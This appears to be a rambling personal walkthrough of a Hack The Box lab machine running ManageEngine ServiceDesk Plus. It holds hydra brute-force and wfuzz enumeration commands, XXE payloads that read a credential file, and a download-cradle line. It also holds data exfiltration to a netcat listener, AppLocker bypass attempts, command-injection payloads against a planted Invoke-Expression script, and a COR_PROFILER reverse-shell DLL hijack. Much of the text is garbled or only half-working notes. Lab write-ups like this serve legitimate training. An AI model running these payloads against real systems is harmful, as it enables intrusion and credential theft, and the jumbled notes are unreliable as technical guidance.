

+++

title = "helpdesk2"

+++


MEGABANK Solutions

**General** 

(password audit) author : Luis R. UPDATED = administrator / suspecting she isn't the true administrator

```
"Please see password audit attached.  Continue to update this spreadsheet with identified credentials."
note:A password audit has been done
```

(support)

```
Please follow the steps mentioned below for support file generation:

    Go to 'Support' tab.
    Click on 'Support File'. This would create a file with extension zip.gz
    Please mail this file to servicedeskplus-support@manageengine.com

    [ Valid as on ServiceDesk Plus release 7.0 ]
```

(servicedesk **upgrade**) author : Luis R.

```
This is important a domain name change has been issues from http to https 
http://euservicedesk
https://euservicedesk
DETAILS: 172.16.249.137 
AddSolution.do?Submitaction=newsolution
CustomReportHandler.do
Luis is a administrator
```

(remote.access) author : Luis Ribeiro Date= dec, 22 2018

```
*remoteaccess.megabank.com ##### (chrome & internet explorer)
*password Windows UserName \PASS
username+employee number
*Enter employee number
# notes email icon's/ share icons / internet explorer icon can be used so some automater user might be here. phone numbers
```

Notes HardWare author : Luis Ribeiro date = above					

```
windows 10 server 2016 used in enviroment. ssd drive erase software is in a directory.
http://www.datarecoveryspecialists.co.uk/blog/how-to-securely-erase-an-ssd 
```

SOFTWARE AUTHOR : administrator date July 14th

(settings)

```
You can move the data from the existing server to new server. Please follow the steps mentioned below:

1. Stop ManageEngine ServiceDesk Plus service

2. Kindly Upgrade the SD+ if needed. Take the link below to check if you are in the latest version;
http://manageengine.com/products/service-desk/service-packs.html
Now start and stop the service once after the upgrade process.

3. In the command prompt, move to [ServiceDeskPlus-Home]\bin directory and execute backupdata.batto start the data backup. Once the backup is over, a directory named "backup" will be created in [ServiceDeskPlus-Home], within which another directory with the name "Backup_[Versionnumber]_Monthdate_Year_Hour_Minutes" will be created and the backup file with .data extension is placed in this directory. The name of the backup file contains the date and time at which backup is taken. Example:BackUp_5501_SEP14_2006_15_51.data

cmd> [ServiceDeskPlus Home]\bin
cmd> backUpData.bat

4. Install SD+ to the new server.

5. Copy the backup folder from the old server to [ServiceDeskPlus-Home] in the new server.

6.To restore the backed up data, Go to [ServiceDeskPlus-Home]\bin directory and execute restoredata.bat. Choose the backup file while prompted. See example below:

cmd> [ServiceDeskPlus Home]\bin
cmd> restoreData.bat


7. Start the SD+ server once after restoring the data in the new server.


[ Valid as on ServiceDesk Plus release 7.0 ]

```

(customizations)

```
Find below the procedure to meet with your need:

1. Save the page served under http://[servername-or-ipaddress:port-number] as index.html. Copy this file onto C:\ManageEngine\ServiceDesk\applications\extracted\AdventNetServiceDesk.eear\AdventNetServiceDeskWC.ear\AdventNetServiceDesk.war

2. Modify the index.html page as per your needs and the save the file under the same location.

3. Keep the FORM Submit and Action options as they are.

4. Edit the Web.xml file present under C:\ManageEngine\ServiceDesk\applications\extracted\AdventNetServiceDesk.eear\AdventNetServiceDeskWC.ear\AdventNetServiceDesk.war\WEB-INF and change the following:

<form-login-page>/Login.jsp</form-login-page>


should be changed as

<form-login-page>/index.html</form-login-page>

AND

<form-error-page>/Login.jsp?error=true</form-error-page>

should be changed as

<form-error-page>/index.html</form-error-page>

5. Restart ServiceDesk Plus service.

6. You can now access the modified index page as http://[servername-or-ipaddress:port-number]/index.html

Note: This file is bound to changes everytime a servicepack or hotfix is released. Hence, when you apply the hotfix or servicepack, you must redo the changes.


[ Valid as on ServiceDesk Plus release 7.0 ]
```

(troubleshooting)

```
Please follow the steps mentioned below for support file generation:

    Go to 'Support' tab.
    Click on 'Support File'. This would create a file with extension zip.gz
    Please mail this file to servicedeskplus-support@manageengine.com

    [ Valid as on ServiceDesk Plus release 7.0 ]
```

Found a excelsheet. i installed openoffice to view the .xlsx file. The initial finding are underwhelming but some content has been hidden. Go to format > select sheet > show. this will show all hidden sheets. Which will reveal some more notes. We find usernames, passwords. it also reveals some of the finer details privileges which accounts share the same password. Also what systems are associated with the passwords. we become aware of a directory it_logins.txt  squee

 



```
The recent penetration test revealed some accounts with weak password security, probably there are more.   We should also consider something that can automate account discovery.

Please update this document with any accounts/logins which you suspect have weak / easily guessable passwords. 
```

| oracle                | scott         | tiger        | priv |
| --------------------- | ------------- | ------------ | ---- |
| wordpresshydra        | admin         | megabank1    | priv |
| windows 7 local admin | Administrator | Megabank123! |      |
| MFT download          | clients       | megabank1    |      |
| jump box              | gavin         |              | priv |

```
File containing details from subsequent audit saved to C:\Temp\Password Audit\it_logins.txt on HELPLINE
```


The Ability to seach for users. This added some new users anne, fiona, mary, stephen

```
wfuzz -c -w /home/htb/wordlist/seclist/Usernames/Names/names.txt -u "http://10.10.10.132:8080/domainServlet/AJaxDomainServlet?action=searchLocalAuthDomain&timestamp=Thu%20Jun%2006%202019%2013:30:22%20GMT-0400%20(EDT)&search=FUZZ" --hh 4 
```


HYDRA!

```
 hydra 10.10.10.132 -s 8080 -L user.txt -P /home/htb/wordlist/seclist/Passwords/Common-Credentials/10-million-password-list-top-100.txt http-form-post "/j_security_check:j_username=^USER^&j_password=^PASS^&LDAPEnable=false&hidden=Select+a+Domain&hidden=For+Domain&AdEnable=false&DomainCount=0&LocalAuth=No&LocalAuthWithDomain=No&dynamicUserAddition_status=true&localAuthEnable=true&logonDomainName=-1&loginButton=Login&checkbox=checkbox:Username or Password is incorrect"
```

XXE -	Stand for XML External Entity traversal 

an xxe attack takes advantage of how an application parses xml input. since the webserver will return the output of the xml file. Xml  entity allows us to read files on the system/disk. The header creates a external entity thats using a system call and assigns it to the variable in the xml file. printing the contenets of any file on the system.  

The first reference will help understand the different elements of xxe vuln. the second provice a proof of concept script that verifies this vuln works. It help understand what was needed and what was not. The last was the most helpful but getting it to work was tricky 

		### references ###

- https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/
- https://github.com/devcoinfet/Manage-Engine-9.3-xxe-/commit/624ca1cdcc126a5396e652aebedbf3a85256d058
- https://labs.integrity.pt/advisories/cve-2017-9362/index.html

Below is the first valid response that wasn't a 3002 or 3026 xml errors. foo & file are variables that can b arbitrarily replace, except file:///. also the order matters in the labs.integrity didn't add the xml version part. To get it to work on this system need to add the api version. then incert the variable in value.

i used cyber-chef to url-encode the strings. burp just does a whacky lame job of encoding in my opinion.  crt+u then crtl + u it will encode the + to %2b instead of %20

```
OPERATION_NAME=add&INPUT_DATA=<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY file SYSTEM "file:///C:\Temp\Password Audit\it_logins.txt">]>
<API version='1.0' locale='en'>
<value>&file;</value>
</API>
```

without the xml version it will give a xml error. 


This produced the desired output. in the next section i played around with how much i need to get the same output. 

```
liOPERATION_NAME=add&INPUT_DATA=<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY file SYSTEM "file:///C:\Temp\Password Audit\it_logins.txt">]>
<API version='1.0' locale='en'>
<records>
        <record>
            <parameter>
                <name>CI Name</name>
                <value>Tomcat Server 3&file;</value>
            </parameter>
            <parameter>
                <name>CI Type</name>
                <value>Business Service</value>
            </parameter>
            <parameter>
                <name>Site</name>
                <value>(empty)</value>
            </parameter>
            <parameter>
                <name>Business Impact</name>
                <value>High</value>
            </parameter>
            <parameter>
                <name>Description</name>
                <value>Domain Conroller </value>
            </parameter>
            <parameter>
                <name>Availability Target(%)</name>
                <value>200</value>
            </parameter>
            <parameter>
                <name>Service Support Hours</name>
                <value>24X5</value>
            </parameter>
            <parameter>
                <name>Cost</name>
                <value>8080</value>
            </parameter>
            <parameter>
                <name>Incident restoration target</name>
                <value>90%</value>
            </parameter>
        </record>
    </records>
</API>
```

So most of the stuff is just fluff and not necessary to get it run.

```
OPERATION_NAME=add&INPUT_DATA=<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY pie SYSTEM "file:///C:\Temp\Password Audit\it_logins.txt">]>
<API version='1.0' locale='en'>
<records>
        <record>
            <parameter>
                <name>pinkie</name>
                <value>&pie;</value>
            </parameter>
        </record>
    </records>
</API>
```


i can't really read this 

```
{"API":{"locale":"en","version":"1.0","response":{"operation":{"name":"add","result":{"statuscode":"3016","status":"Unable to perform the requested operation.","message":"Unable to add the CI(s), please refer the error message.","created-date":"Jun 8, 2019 01:27 AM"},"Details":{"records":{"failed":["1",{"ci":{"name":"Tomcat Server 3\r\nlocal Windows account created\r\n\r\nusername: alice\r\npassword: $sys4ops@megabank!\r\nadmin required: no\r\n\r\nshadow admin accounts:\r\n\r\nmike_adm:Password1\r\ndr_acc:dr_acc","error":"\'Product Name\' cannot be empty."}}],"success":"0","total":"1"}}}}}}
```


```
admin required: no pass
user:	alice | pass:	 $sys4ops@megabank!
shadow admin acounts below
user:	mike_adm | pass:	Password1
dr_ass 	dr_ass
```

SHELL 		##### ALICE #####

We land and find our selves in constraint language mode. ran and checked the net framework version 2 isn't there so can't use that bypass. ran netstat to found that port 8081 is open locally. Obvisiously going to tunnel and gain access to localhost. 

Enum CLM

```
Get-ExecutionPolicy -List | Format-Table -AutoSize
```


```
$ExecutionContext.SessionState.LanguageMode
```

```
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"
```

Enum .NET/powershell	=	 figure out which bypass method should be used. this basically tells us what powershell version are available. 

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"           
```

**Failure**On top of everything else applocker is blocking msbuild.exe, group policy is also blocking other bypass methods. After digging around on google trying out various applocker bypasses. using [csc.exe](https://docs.microsoft.com/en-us/dotnet/csharp/language-reference/compiler-options/command-line-building-with-csc-exe) c compile to bypass applocker. 

Whitelist evation write by [khr0x40sh](https://twitter.com/khr0x40sh) https://github.com/khr0x40sh/WhiteListEvasion which will build our payload and generate a C# c sharp template. will produce .net binary that we will use to evade AppLocker. it uses msfvenom to generate the shell. 

applocker shut down the above method C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe


Enum Netstat -ant 


Enumerating powershell version because sometimes 32 or a older version of powershell is skipped so i run through and check whats available. 

```
[Environment]::Is64BitProcess
returns =	True
```

**USER** TRIED USING ALICE PASSWORD ON ACCOUNTS BELOW

```
LEO
TOLU
ZACHARY
ALICE
ADMINISTRATOR
```


 ####     FOUND SOME DRIVES!!    ####

I recently did ethereal and remember that 0xdf used a command to enumerate possible drives.

```
fsutil fsinfo drives
```


**D:**  Denied

**PSQL**

**E:** The ManageEngine pgsql. Luckly I did flujab recently following ippsec and 0xdf guides.  I'm slowly getting better at sql tables. ManageEngine uses pgsql(psql) to run the site, it took quite of bit of time to find the directory for pgsql i must have gleemed over it or it was changed. 

Below is the path to psql.exe well use this to interact witht the sql server it is using default credentials. There are a bunch of other cool things in the pgsql\bin directory. 

```
cd E:\ManageEngine\ServiceDesk\pgsql\bin
```

From the root directory you there is another bin's folder that has changeDBServer.bat this file will give you the necessary information to login into the console. there is a cool exploit if i had the ability to write to these files. below is a example of editing one of the files during start up to elevate our session.

```
ChangeJRE.bat
start "" "C:\ManageEngine\ADManger Plus\bin\privesc.exe"
```

Minatotw gave my a hint to mess with the pgsql. The below bit will dump all the tables. here well find a bunch of useful information. We could enumerate the whole website from here gaining all the information need about the target company. Services usernames passwords. im sure the credentials are reused. The below command generated two interesting tables aaauser aaapassword, i believe these naming conventions are quite common. i have used the triple a's before.

I reused the sql from flujab to enumerate the webapp. 

```
.\psql.exe -h 127.0.0.1 -U postgres -p 65432 -d servicedesk -c "select 1,2,CONCAT(TABLE_SCHEMA,':',TABLE_NAME),4,5 from INFORMATION_SCHEMA.COLUMNS"
-h host
-U username
-d name of the database
-c command line
```

```
aaauser
aaapassword
```

.PNG)

```
.\psql.exe -h 127.0.0.1 -p 65432 -U postgres -d servicedesk -c "select * from aaauser"
.\psql.exe -h 127.0.0.1 -p 65432 -U postgres -d servicedesk -c "select * from aaapassword"
```

**AAAUSER** it's nice to see howard stern still has gainful employment. 

```
System
$DEPT_HEAD$
Guest
administrator
Shawn Adams
Heather Graham
John robberts
Howard Stern
Jeniffer Doe
Alive Jones
Luis Ribeiro
Zachary Moore
Fiiona Drake
Mary Wong
Anne Sergeant
```

**AAAPASSWORD**

**LOCALGROUP** policy

```
net localgroup "Remote Management Users"
```

*output*

```
alice
tolu
```

Trying to add alice into the administrators group

```
net localgroup administrators alice /add		### DENIED
```

Enumerating user 

```
net localgroup Users
```

*output*

```
Administrator
alice
leo
niels
NT AUTHORITY\Authenticated Users
NT AUTHORITY\INTERACTIVE
tolu
zachary
```

after playing around for awhile i stumbled apon net user. this will tell us information about a specific user instead of the groups. net l

```
net user zachary
```


trying to find something related to event log readers policies. After some searching around on google i bumped into a command line utility for viewing event logs. 

**WEVTUTIL.EXE** 	####	is in the windows\system32 directory. 

references : 

- https://docs.microsoft.com/en-us/windows/win32/wes/windows-event-log-tools
- https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/wevtutil

```
c:\windows\system32\wevtutil.exe el /r:helpline /u:helpline\zachary /p:0987654321
el ENUMERATE EVENT LOG NAMES
/u USERNAME
/p PASSWORD
/r REMOTE COMPUTER NAME
```

**RESULTS**

```
OpenSSH/Admin
muxencode
Security
Microsoft-Windows-RemoteApp and Desktop Connections/Admin
```

```
c:\windows\system32\wevtutil.exe qe "muxencode" /r:helpline /u:helpline\zachary /p:0987654321 /f:text /rd:true
c:\windows\system32\wevtutil.exe qe "security" "/q:*[Security [(Level=2)]]" /r:helpline /u:helpline\zachary /p:0987654321 /f:text /rd:true 
```

Trying to view zachary powershell logs i get access denied

https://jordanpotti.com/2017/01/20/basics-of-windows-incident-response/

https://static1.squarespace.com/static/552092d5e4b0661088167e5c/t/578627e66b8f5b322df3ae5b/1468409832299/Windows+PowerShell+Logging+Cheat+Sheet+ver+June+2016+v2.pdf

```
c:\windows\system32\wevtutil.exe gl "Microsoft-Windows-PowerShell/Operational" /r:helpline /u:helpline\zachary /p:098765432
"Windows PwerShell"
```

| **4720** | UserCreated   |
| -------- | ------------- |
| **4725** | User Disabled |
| **4726** | User Deleted  |
| **4722** | User Enabled  |

 User created

**4725** User disabled 

**4726** User deleted

**4724**  ##################  This even is created when the a password change is made and FAILS TO MEET PASSSOWRD POLICY.  there is another event 4723 passwordreset

```
c:\windows\system32\wevtutil.exe qe Security /q:"*[System[(EventID=4724)]]" /c:5 /r:helpline /u:helpline\zachary /p:0987654321 /f:text /rd:true
```

**4688** Documents each program that is executed, who the program ran as and the process that started this process. The Data for this event can be correlated with 4689. there could be something to this one. maybe transfering all the output to file. 

```
c:\windows\system32\wevtutil.exe qe Security /q:"*[System[(EventID=4688)]]" /c:20 /r:helpline /u:helpline\zachary /p:0987654321 /f:text /rd:true
```

OUTPUT* someone attemped to reset the admin password. 


*TASKLIST*	###	displays a list of currently running proccess *remote*

```
tasklist /S helpline  /U helpline/zachary /P 0987654321
/S server name 
/U domain\username
/P password
```

## **TOLU**

```
!zaq1234567890pl!99
```

```
Enable-WSManCredSSP -Role Client -DelegateComputer helpline.htb -force
Invoke-Command –ComputerName helpline.htb –ScriptBlock { Get-WindowsFeature | Where-Object {$_.InstallState –eq ‘Installed’} }
```

So finding the right event to get th credentials was pretty tough they were allot of recorded events. I saved everything to a file about 36 mega bytes of data. 

```
Enter-PSSession -ComputerName 10.10.10.132 -Credential tolu
```

FINDSTR or FINDSTRING is the windows equilivant of grep. i used this while queriering the security logs. to find that user tolu was running [net.exe](https://docs.microsoft.com/en-us/windows/win32/winsock/net-exe-2)

```
c:\windows\system32\wevtutil.exe qe Security /r:helpline /u:helpline\zachary /p:0987654321 /f:text /rd:true | findstr tolu
```

```
net.exe user T: \\helpline\helpdesk_stats /USER:tolu 
```


Going back to the **E:** drive tolu has access to some more directories. The script is written by leo 

 Starts off changing to the E:\ drive, use *Remove-Item* to clear output.txt, then checks ports, api, put all of this into output.txt. then it submit a *technician_key* (CDDBD0A5-5D71-48DE-8FF7-CB9751F0FE7C) and takes the output -Appends it to output.txt. I feel like this could be what i need im not exatly sure what the key is. 

Checks service status using Get-Service servicedesk

This also seems like a point we could exploit. 

```
# restore ServiceDesk data from secure backup folder if required                   
# put name of folder in backups.txt to retrieve it, e.g. backup_postgres_9309_fullbackup_mon 
```

the if statement checks the file path if true then it copies backups.txt from scripts to scripts\processing. then sanitize user input. 

```
# script to check ServiceDesk Plus status, and restore backup from secure folder if needed                     
# please report any issues - leo     
```

It changes to the e drive cleans up previous attempts, checks the status of the ports, serviceengine is running.

```
Remove-Item E:\Scripts\output.txt                                                                   
Get-Date | Add-Content E:\Scripts\output.txt  
```

I thought this part was interesting because im pretty sure that might be lou technician key

```
# check API

Add-Content E:\Scripts\output.txt ""
Add-Content E:\Scripts\output.txt "Check API status"

Invoke-RestMethod -Uri http://helpline:8080/sdpapi/request/1/ -Method Post -Body @{OPERATION_NAME='GET_REQUEST';TECHNICIAN_KEY='CDDBD0A5-5D71-48DE-8FF7-CB975$
F0FE7C';} | Out-File E:\Scripts\output.txt -Append -Encoding ASCII
```

Microsoft service doc about invoke-expression mentions sanitizing input in scripts that use this tool. This part checks that the file backups.txt is in scipts. then moves scripts/backups.txt to /script/process/backups.txt. Then it checks user input and remove any blacklisted characters. 

<https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-6>

```
# restore ServiceDesk data from secure backup folder if required
# put name of folder in backups.txt to retrieve it, e.g. backup_postgres_9309_fullbackup_mon                                                                 
if (Test-Path E:\Scripts\backups.txt) {
    Copy-Item E:\Scripts\backups.txt E:\Scripts\Processing\backups.txt
    # sanitize user input

    $file = Get-Content E:\Scripts\Processing\backups.txt
    $file -replace "exe","" > E:\Scripts\Processing\backups.txt
    $file = Get-Content E:\Scripts\Processing\backups.txt
    $file -replace "msi","" > E:\Scripts\Processing\backups.txt
    $file = Get-Content E:\Scripts\Processing\backups.txt
    $file -replace "ps1","" > E:\Scripts\Processing\backups.txt
    $file = Get-Content E:\Scripts\Processing\backups.txt
    $file -replace "cmd","" > E:\Scripts\Processing\backups.txt
    $file = Get-Content E:\Scripts\Processing\backups.txt
    $file -replace "bat","" > E:\Scripts\Processing\backups.txt
    $file = Get-Content E:\Scripts\Processing\backups.txt
    $file -replace "dll","" > E:\Scripts\Processing\backups.txt
    $file = Get-Content E:\Scripts\Processing\backups.txt
    $file -replace " ","" > E:\Scripts\Processing\backups.txt
    $file = Get-Content E:\Scripts\Processing\backups.txt
    $file -replace "&","" > E:\Scripts\Processing\backups.txt
    $file = Get-Content E:\Scripts\Processing\backups.txt
    $file -replace "{","" > E:\Scripts\Processing\backups.txt
    $file = Get-Content E:\Scripts\Processing\backups.txt
    $file -replace "}","" > E:\Scripts\Processing\backups.txt
    $file = Get-Content E:\Scripts\Processing\backups.txt
    $file -replace "/","" > E:\Scripts\Processing\backups.txt
    $file = Get-Content E:\Scripts\Processing\backups.txt
    $file -replace "\\","" > E:\Scripts\Processing\backups.txt
    $file = Get-Content E:\Scripts\Processing\backups.txt
    $file -replace """","" > E:\Scripts\Processing\backups.txt
    $file = Get-Content E:\Scripts\Processing\backups.txt
    $file -replace "\'","" > E:\Scripts\Processing\backups.txt
    $file = Get-Content E:\Scripts\Processing\backups.txt
    $file -replace "\(","" > E:\Scripts\Processing\backups.txt
    $file = Get-Content E:\Scripts\Processing\backups.txt
    $file -replace "\)","" > E:\Scripts\Processing\backups.txt
    $file = Get-Content E:\Scripts\Processing\backups.txt
    $file -replace "\.","" > E:\Scripts\Processing\backups.txt
```

**BLACKLISTED**

vbs script in the above script sinlge quotes before the backslash is a scape or to signify its a REAL character.

```
space
dll
exe
scripts:cmd,ps1,bat
&
}
{
/
\
""
\ <<=== the single quote is used as an escape. 
'
)
(
.
```

for each line in processing/backups.txt it puts the command as a variable uses invoke-expression to run the command. this is necessary to get it to work properly in a script. **D** should be a indicator the script ran. pipes it over to xcopy which is a tool used for coping files between systems. 

```
xcopy /E /R /C /Y /H /F /V E:\Backups\$backup E:\Restore\$backup
/c ignores errors
/f displays sources and destination file names while copying
/h copies files hidden files
/e Copies all subdirectories, even if they are empty. 
/r copies read only
/y Suppresses prompting to confirm that you want to overwrite an existing destination file
```

qmaybe I can base64 encode the string to bypass the blacklist.

```
    ForEach ($backup in Get-Content "E:\Scripts\Processing\backups.txt")
    {
      $Command = "echo D | xcopy /E /R /C /Y /H /F /V E:\Backups\$backup E:\Restore\$backup"                                                                 
      Invoke-Expression $Command
    }
```

```
    Remove-Item E:\Scripts\backups.txt
    Remove-Item E:\Scripts\Processing\backups.txt
}
```

**applocker**

In additions to this trying to get information's out of applocker was kind of a pain. Get-AppLockerPolicy sent the output to a file then used certutil to encode the xml file. copy pasted over the data. The files are rather long every time i tried to use type i would get all kinds of errors. more and cat are the best options. **MORE** is a windows cmd tool to read large files. 

```
Get-AppLockerPolicy -Effective -XML > meow.xml
certutil -encode meow.xml meow.b64
more
cat
type = bad crashes terminal
```

Okay apparently theres Invoke-webrequest POST . 

this will put the file as the body of the message and send it over. we'll have to remove the header when it's sent over. setup a *NetCat* listener i like to use the verbose switch so i know if it connects etc. you will have to close the listener to close out everything, just check the bytes to know it's completely finished uploading.

```
Invoke-WebRequest -Uri http://10.10.15.57 -Proxy 'http://10.10.15.57:80' -Method Post -InFile meow.xml
```

```
nc -lvp 80 > meow.xml
```


Applocker rule enforcement is applied to a collection of rules. there should be minium of four rule collections installers, executable, Dll, & Scripts. 

**IMPORTANT**  each rule in the policy is an allow and applocker blocks them by default. 

only the administrator as access to most of it, but in scripts there are a couple of rules  that are relevant  E:\scripts\* there is a script in the leo directory hmmm. there are a bunch of rules in here like ManageEngine: run.bat


This is the big take away from the Applocker policy that any script is allowed to run in E:\scripts, maybe that run.ps1


**Invoke-Expression** 

"The `Invoke-Expression` cmdlet evaluates or runs a specified string as a command and returns the results of the expression or command. Without `Invoke-Expression`, a string submitted at the command line would be returned (echoed) unchanged."

So, To test this out i made a smaller version of the script locally. then while i was playing with i see why what i was trying didn't work. i tried things like in linux & | etc to escape out but this is a litte different.  **;** to get invoke-expression to escape out run a system command like hostname. ; isn't on the blacklist which might make this way harder.   

```
ForEach ($backup in Get-Content "c:\Users\backups.txt")
{
$Command = "echo D | xcopy /E /R /C /Y /H /F /V c:\Users\$backup c:\Users\process\$backup"
Invoke-Expression $Command
}
```

```
echo ";hostname" > backups.txt
```

**PLAYING AROUND WITH DIFFERENT COMMAND & MORE FILE TYPES**

I have never used any of theses other file types im going to use cmd because it is close to a bat file, it should be easier to find material to read up on. I don't know what i was reading about from this article but it works just like a bat file some of these guides are for administrators and shit they do all this bullshit crap

<https://smallbusiness.chron.com/write-cmd-script-53226.html>

Good new's everyone. i got a bunch of problems using robocopy or this other trick i found to copy multiple files. #lazy i ended up writing copy to notepad and pasting over. i dont have time for this copy poo for each test so i put commands ill use multiple times away. 

```
for %I in (pie.cmd backups.txt) do copy %I E:\scripts\
robocopy C:\Users\tolu\AppData\Local\Microsoft\WindowsApps\ E:\Scripts\ pie.cmd backups.txt
```

 I made two version of the script locally the first simple just to make sure the program runs, the second with the filter. i just setup everything to run the cmd file it removed cmd. it is related to  bat file so i believe these might be smart filters. lol

Above i talk about the whats being black listed and i do believe the filters are smart for example ./ .\ or any commination is checked for. 

So, after talking to some people & reading about how malware is obfuscating powershell i believe. 

```

```

```
(New-Object Net.WebClient).downloadString('http://IP_ADDRESS/file-needed')
```

So, after playing with Invoke-obfuscation which is a really cool tool that i would love to use one day. 0xdf talks about it in the malware samples post. While this made things harder to detect and some of them got really close to bypassing the blacklisted characters the list proved to good. 

So, next thing im going to try is Environmental variables. this is kind of tricky didn't quite work like i hoped it did. it's limited but useful. setting the enviroment variable is pretty straightforward. `set NameVariable Path`

This whole things becoming a bleeping mess. Im currently trying to get the cor_profiler bypass to work, i tried the basics moving up to mingw custom dll. I tried using Beryllium dll but av picked it up. I also checked the firewall fules and using port 443 is fine as we know but still cool to check `netsh advfirewall firewall show rule name=all`

So doing some futher testing when you enter powershell or tzsync it is indeed ran. i believe i am only setting my enviroment variables so it wont affect leo. 

```
``
email docs common
```

So there are some characters that cause a string to be treated differently like * does something special i watch daniel bohannon video about powershell encoding [obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation).

Lets play with the script locally and try to gain a full understanding of what it is doing here. first off it takes input from a text file sanatize it then put's in a variable that invoke-expression calls. we get our command injection via the text file. 

I found another file type .ps2 which is neat to know but period are taken away and also ` |iex` will run a script

Let's go over all the interesting things about envirment variables and some of the ways they can be further used to run commands.

example one we have the backupscript, backups.txt. setx a env variable to point to a script saved as host.ps1 that makes a directory. The blacklisted characters prevent spaces but in a more limited version of the script this will run a command bypassing 90% of the list. i had orginally thought since this was in a powershell script that it wouldn't need powershell. maybe escaping has completely escaped out. 

```
setx mkd c:\users\user\host.ps1
echo "powershell $env:mkd"
```

next well run a command using ``t` special character for horizontal space. This will also make a directory named meow.

```
powershell mkdir`tmeow
```


```
setx meow "c:\users\user\host.ps1"
set meow="mkdir meow"
```

we can use the ; and | to run commands yay. so i can store whatever i want as a enviroment variable and run it through powershell locally but this translating is different. 

```
;$env:meow|powershell
```

```
winrm set winrm/config/server @{TrustedHosts="*"}
```

```
Enter-PsSession –ComputerName helpline.htb –Credentials helpline\administrator
```

You may also set enviroment variables with a command scripts or .cmd file. each line is a new command or something like that. ; are nice to add at the end but i dont believe they are necessary. 

backups.txt

```
;$env:death|powershell
```

set environment variable 

```
set death="e:\scripts\string.cmd"
```

string.cmd u may use ;

```
set test=1
set test2="{string}"
set test3="e:\scripts\string.dll"
tzsync
```

When you run .\host it and you have a file named host it will default complete to .ps1 and go down a list.

if you had the ability to write to any of the save env var you could also create a .ps1 file named after the directory and pipe to poewrshell bypass stuff that way.https://superuser.com/questions/916649/what-is-the-difference-between-setx-and-set-in-environment-variables-in-windows

the difference between setx and set. "`SETX` modifies the value permanently, which affects all future shells. it does not modify the enviroment of the shells already running. " 

"set modifies modifies the current shells (windows) env values. the change is available immediatly. ""

with these things in mind maybe im not affecting leo. by changing my own enviroment vars because he is running the script so it doens't pull from my enviroment vars. super lame

i can't change change the enviroment variables to effect the outcome. i can only use them to get shell. I can use prexisting env values to run a script. because if i pipe a file to powershell it will append .ps1. 

leo is a helpdesk admin and has full access to helpdesk engine and its install im pretty sure theres cve for that. 

https://stackoverflow.com/questions/50018274/why-does-invoke-operator-and-invoke-expression-produce-different-results-for

semicolon is the statement separator for powershell. 

what the parser see's ; it considers that the end of the first command and starts to parse the second command. 

you may also set env values using $env:userdomain='foo' this is how you set user session variables everything is reset and does not affect other users.

```
[Environment]::SetEnvironmentVariable("Test", "Test value.", "User")
1
	
[Environment]::SetEnvironmentVariable("Test", "Test value.", "User")
```

in summary i can't use values i set 8

so finally figured out what -m does for setx it sets it for all users pretty neat. tolu does not have the permissions needed to effect all users 

backups.txt

```
;$env:pathext[0]+$env:PUBLIC[2]+$env:COMPUTERNAME[4]+$env:pathext[0]+$env:pathext[16]+$env:pathext[17]+$env:pathext[18]|powershell
```

l.cmd

```
set "COR_ENABLE_PROFILING=1"
set "COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}"
set "COR_PROFILER_PATH=C:\Windows\System32\spool\drivers\color\revshell.dll"
tzsync
```

https://stackoverflow.com/questions/3803581/setting-a-system-environment-variable-from-a-windows-batch-file

```
set "COR_ENABLE_PROFILING=1"
set "COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}"
set "COR_PROFILER_PATH=c:\windows\system32\drivers\spool\color\revshell.dll"
tzsync
```

in leo documents theres the run.ps1 script. then in desktop find a admin-pass.xml file

```
01000000d08c9ddf0115d1118c7a00c04fc297eb01000000f2fefa98a0d84f4b917dd8a1f5889c8100000000020000000000106600000001000020000000c2d2dd6646fb78feb6f7920ed36b0ade40efeaec6b090556fe6efb52a7e847cc000000000e8000000002000020000000c41d656142bd869ea7eeae22fc00f0f707ebd676a7f5fe04a0d0932dffac3f48300000006cbf505e52b6e132a07de261042bcdca80d0d12ce7e8e60022ff8d9bc042a437a1c49aa0c7943c58e802d1c758fc5dd340000000c4a81c4415883f937970216c5d91acbf80def08ad70a02b061ec88c9bb4ecd14301828044fefc3415f5e128cfb389cbe8968feb8785914070e8aebd6504afcaa
```

```
